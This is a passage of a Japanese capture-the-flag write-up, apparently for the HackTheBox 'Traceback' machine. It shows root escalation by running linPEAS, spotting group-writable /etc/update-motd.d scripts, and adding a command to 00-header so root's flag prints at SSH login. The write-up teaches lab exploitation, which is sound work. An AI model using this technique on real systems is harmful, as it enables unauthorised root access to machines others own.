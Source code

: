 ### root login

まず [`linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) を流します。

クライアントマシンでダウンロード、 scp でターゲットマシンに送りつけます。
ターゲットマシンで `curl` or `wget` が使えれば楽なのですが、 名前解決で失敗していたのでこうしています。

```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
chmod u+x linpeas.sh
scp -i ~/.ssh/traceback linpeas.sh sysadmin@10.10.10.181:/home/sysadmin/linpeas.sh
```

実行すると以下の辺りが黄色くなっています。

```
sysadmin@traceback:~$ ./linpeas.sh

... 省略 ...

[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/dev/mqueue/linpeas.txt

... 省略 ...
```

`/etc/upated-motd.d` 以下はログイン時に出るバナーなどを実装しているシェルスクリプトのようです。
root 権限で動作するらしいので、ここで `/root/root.xt` の表示を試みます。

```
$ nano /etc/update-motd.d/00-header

# cat /root/root.txt を追加
```

これで SSH し直すとバナーと一緒に `root.txt` も出力されます！

```
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:56:10 2020 from 10.10.14.11
$
```
